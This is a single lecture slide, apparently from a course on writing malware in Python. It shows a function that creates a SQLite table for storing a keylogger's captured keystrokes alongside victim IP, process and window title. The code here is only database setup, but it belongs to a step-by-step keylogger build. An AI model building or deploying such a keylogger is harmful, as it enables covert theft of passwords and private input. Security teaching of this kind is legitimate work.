

Python Malwares (cont.)
Writing a Keylogger (cont.)
Next, we will write a function to initialize the keylogger result table (if it hasn’t been initialized yet):
def init_db(conn):
    keylogger_results_table = """CREATE TABLE IF NOT EXISTS keylogger_results (
                                 id integer PRIMARY KEY,
                                 ip_address text NOT NULL,
                                 executable_name text NOT NULL,
                                 process_id integer NOT NULL,
                                 window_title text NOT NULL,
                                 keys text NOT NULL
                                 );"""
    try:
        c = conn.cursor()
        c.execute(keylogger_results_table)
    except Exception as e:
        print(e)
141